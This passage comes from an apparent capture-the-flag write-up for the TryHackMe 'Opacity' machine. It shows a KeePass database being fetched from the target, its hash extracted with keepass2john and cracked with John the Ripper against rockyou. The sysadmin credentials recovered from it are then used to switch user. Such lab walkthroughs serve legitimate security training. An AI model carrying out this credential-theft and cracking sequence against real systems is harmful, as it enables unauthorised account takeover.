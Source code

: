 Downloading the KeePassXC database file to our machine:
```shell
┌──(kali㉿rar)-[~/THM/Opacity]
└─$ wget http://opacity.thm:8000/dataset.kdbx
```

Getting the keepass hash using the `keepass2john` script:
```shell
┌──(kali㉿rar)-[~/THM/Opacity]
└─$ keepass2john dataset.kdbx > keepass_hash
```

Cracking the hash using `John The Ripper`:
```shell
┌──(kali㉿rar)-[~/THM/Opacity]
└─$ john keepass_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (dataset)     
1g 0:00:00:11 DONE (2023-05-16 19:36) 0.08826g/s 77.31p/s 77.31c/s 77.31C/s chichi..melvin
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


Opening the database file in `KeePassXC` using the password `741852963`:
```shell
┌──(kali㉿rar)-[~/THM/Opacity]
└─$ keepassxc dataset.kdbx 
```

![keepass-login](https://github.com/0xRar/0xrar.github.io/assets/33517160/7f1658a5-01b0-477b-ba37-79048ad0be3c)
![keepass-sysadmin-password](https://github.com/0xRar/0xrar.github.io/assets/33517160/1fc8bd50-7364-4812-8747-8db3d2f0099b)

Creds: `sysadmin : Cl0udP4ss40p4city#8700`

Login as sysadmin:
```shell
www-data@opacity:/$ su sysadmin
Password: Cl0udP4ss40p4city#8700

sysadmin@opacity:/
```
<br>
```shell
sysadmin@opacity:~$ cat local.txt
REDACTED
```

now that we are logged in as sysadmin we can look for a way to get root on the machine, <br>
but before we do that logging in via ssh is a good idea.
